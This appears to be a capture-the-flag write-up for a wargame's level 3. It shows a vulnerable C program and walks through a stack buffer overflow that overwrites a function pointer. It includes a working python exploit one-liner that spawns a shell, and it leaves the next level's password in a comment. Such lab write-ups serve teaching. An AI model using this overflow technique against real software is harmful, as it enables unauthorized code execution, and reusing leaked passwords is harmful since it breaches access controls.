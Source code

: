 ## Level 3:

Again we have access to the source file:

```c
 1 //bla, based on work by beach
 2 
 3 #include <stdio.h>
 4 #include <string.h>
 5 
 6 void good()
 7 {
 8         puts("Win.");
 9         execl("/bin/sh", "sh", NULL);
10 }
11 void bad()
12 {
13         printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
14 }
15 
16 int main(int argc, char **argv, char **envp)
17 {
18         void (*functionpointer)(void) = bad;
19         char buffer[50];
20 
21         if(argc != 2 || strlen(argv[1]) < 4)
22                 return 0;
23 
24         memcpy(buffer, argv[1], strlen(argv[1]));
25         memset(buffer, 0, strlen(argv[1]) - 4);
26 
27         printf("This is exciting we're going to %p\n", functionpointer);
28         functionpointer();
29 
30         return 0;
31 }
32 
```

Looking at it, it is obvious that we need to overflow the bufferr and set the poointer for the function we want to execute. In this case we want to execute good().

Running it with some random input also gives us a hint by showing the address of the function we want to execute:

```console
level3@io:/levels$ ./level03 overflow
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

To figure out how many bytes we need to overflow the buffer and other stuff we can just try to figure out the necessary amount of bytes needed to overflow and change the function pointer. This turns out to be 76 (it's obviously more then 50 as we first need to overflow the buffer set for argv[1])

```console
level3@io:/levels$ ./level03 $(python -c 'print "\x41" * 76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.3$ 
```

Now we just cat the .pass to get the password for level4

<!-- Level 4 password => 7WhHa5HWMNRAYl9T -->